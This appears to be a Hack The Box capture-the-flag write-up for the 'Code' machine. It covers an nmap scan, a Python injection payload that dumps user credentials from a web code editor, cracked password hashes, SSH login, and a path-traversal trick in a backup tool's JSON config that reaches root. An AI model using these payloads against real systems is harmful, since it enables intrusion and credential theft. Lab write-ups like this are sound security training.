 # Code Write-up

<img src="https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.11.62`

    PORT     STATE    SERVICE   VERSION
    22/tcp   open     ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
    |   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
    |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
    5000/tcp open     http      Gunicorn 20.0.4
    |_http-title: Python Code Editor
    |_http-server-header: gunicorn/20.0.4
    9898/tcp filtered monkeycom
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

We can see that port 5000 is running a Python Code Editor.

![image](https://github.com/user-attachments/assets/64329268-39d2-469b-9b09-134864bc0cc4)

Use payload:

    print([(user.id, user.username, user.password) for user in User.query.all()])

![image](https://github.com/user-attachments/assets/92fb4455-617b-4f0c-9bd8-e3cdc8c175f1)

Credentials:

    development:759b74ce43947f5f4c91aeddc3e5bad3
    
    martin:3de6f30c4a09c27fc71932bfc68474be
    
    1:c4ca4238a0b923820dcc509a6f75849b

Passwords

`development`:`development`

`martin`:`nafeelswordsmaster`

## SSH

![image](https://github.com/user-attachments/assets/771c020d-8b06-43f8-bf6d-1efe1893f457)

![image](https://github.com/user-attachments/assets/0f7458be-8b8f-45ca-b973-4fc1bb80bdda)

![image](https://github.com/user-attachments/assets/ffeca174-7211-4583-a115-87c7ffad4a45)

![image](https://github.com/user-attachments/assets/f7bc8ab2-accc-41ea-8cd2-8d7055ef1ad2)

![image](https://github.com/user-attachments/assets/94b628f7-6a92-43b6-b553-4402d6d1c567)

    {
    “destination”: “/home/martin/”,
    “multiprocessing”: true,
    “verbose_log”: false,
    “directories_to_archive”: [
    “/home/app-production/user.txt”
    ]
    }

![image](https://github.com/user-attachments/assets/52bc9d84-f57c-4958-a3ab-19840b7022d8)

![image](https://github.com/user-attachments/assets/e037c2e8-6142-43e2-baba-03624b639a41)

![image](https://github.com/user-attachments/assets/d99448ae-4d95-46c1-bdd2-35d05a2221c1)

Get the user flag!

![image](https://github.com/user-attachments/assets/929e6daa-a817-4c99-bba9-8d3634d882ca)

Privilege Escalation

    {
    “destination”: “/home/martin/”,
    “multiprocessing”: true,
    “verbose_log”: true,
    “directories_to_archive”: [
    “/var/….//root/”
    ]
    }

![image](https://github.com/user-attachments/assets/571a91cb-c7f5-4d21-bbd4-4213ed9a6a69)

Get the root flag!

![image](https://github.com/user-attachments/assets/60a4d038-0792-4447-8de9-d619e4781f23)
